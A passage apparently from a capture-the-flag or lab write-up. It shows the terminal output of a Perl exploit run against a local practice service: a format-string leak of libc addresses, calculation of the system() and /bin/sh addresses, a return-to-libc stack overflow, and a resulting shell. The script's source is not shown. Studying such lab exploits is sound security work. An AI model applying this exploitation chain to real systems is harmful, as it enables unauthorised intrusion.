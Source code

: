 Running it looks like:
```bash
$ perl solution_to_system.pl 
[+] Connected to 127.0.0.1:1337
[+] Response: Hello there.
Give me a format string: 
[+] Sending format string ...
[+] Response: You requested the following string to be printed: '
                                                                 %8$s
'
Unsafe printing: 
                 ??f??g? ?g?Ph??Yc?

Now that you know my secrets, do a return-to-libc by smashing this stack: 
[+] Address leaked: 0x0804a00c
[+] Address leaked: 0xb7669280
[+] Address leaked: 0xb767f810
[+] Address leaked: 0x080483d6
[+] Address leaked: 0xb767fb20
[+] Address leaked: 0xb7681650
[+] Address leaked: 0x08048406
[+] Address leaked: 0xb7635990
[-] According to printf the base address is: 3076636672
[-] According to gets the base address is: 134100742
[-] According to fgets the base address is: 3076636672
[-] According to fflush the base address is: 3076636672
[-] According to puts the base address is: 3076636672
[-] Leaked base address: 3076636672
[-] System() = 0xb765c190, /bin/sh = 0xb777ca24
[+] Sending buffer ...
[+] Response: 
Goodbye, I will now leave you to wherever...

[+] Response: uid=1042(koffiedrinker) gid=1043(admin) groups=1043(admin),100(users),999(vboxsf)
```



